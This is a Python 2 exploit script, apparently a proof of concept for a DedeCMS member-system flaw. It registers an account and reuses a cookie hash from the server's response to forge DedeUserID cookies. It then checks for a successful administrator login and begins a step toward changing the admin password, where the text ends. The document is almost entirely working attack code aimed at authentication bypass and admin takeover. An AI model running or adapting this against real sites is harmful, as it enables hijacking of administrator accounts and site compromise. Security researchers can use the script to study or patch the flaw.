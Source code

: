     import requests
    import re

    if __name__ == "__main__":
        dede_host = "http://127.0.0.1/"
        oldpwd = '123456'
        newpwd = "cnvdcnvd"
        s = requests.Session()

        if '系统关闭了会员功能' in requests.get(dede_host + 'member/reg_new.php').content:
            exit('The system has closed the member function .Can not attack !!!')
        else:
            print "The system opened the membership function, I wish you good luck  !!"

        headers = {"Referer": dede_host + "member/reg_new.php"}
        rs = s.get(dede_host + 'include/vdimgck.php').content
        file = open('1.jpg', "wb")
        file.write(rs)
        file.close()

        vdcode = raw_input("Please enter the registration verification code : ")

        userid = '0000001'
        uname = '0000001'
        userpwd = '123456'


        headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0)",
                   "Content-Type": "application/x-www-form-urlencoded"}
        data = "dopost=regbase&step=1&mtype=%E4%B8%AA%E4%BA%BA&mtype=%E4%B8%AA%E4%BA%BA&userid={userid}&uname={uname}&userpwd={userpwd}&userpwdok={userpwd}&email=0000001%400000001.com&safequestion=0&safeanswer=&sex=%E7%94%B7&vdcode={vdcode}&agree=".format(
            userid=userid, uname=uname, userpwd=userpwd, vdcode=vdcode)
        rs = s.post(dede_host + '/member/reg_new.php', data=data, headers=headers)
        if "验证码错误" in rs.content:
            exit("Verification code error, account registration failed")
        elif '注册成功' in rs.content:
            print 'registration success !!'

        rs = s.get(dede_host + "/member/index.php?uid={userid}".format(userid=userid))
        if "资料尚未通过审核" in rs.content:
            exit("User information has not been approved !!!")  # 会员使用权限开通状态(-10 邮件验证 -1 手工审核, 0 没限制)：
        searchObj = re.search(r'last_vid__ckMd5=(.*?);', rs.headers['Set-Cookie'], re.M | re.I)
        last_vid__ckMd5 = searchObj.group(1)
        s.cookies['DedeUserID'] = userid
        s.cookies['DedeUserID__ckMd5'] = last_vid__ckMd5
        rs = s.get(dede_host + "/member/index.php")
        if "class=\"userName\">admin</a>" in rs.text:
            print "Administrator login successful !!"

        headers = {"Referer": dede_host + "member/edit_baseinfo.php"}
        rs = s.get(dede_host + 'include/vdimgck.php').content
        file = open('2.jpg', "wb")
        file.write(rs)
        file.close()
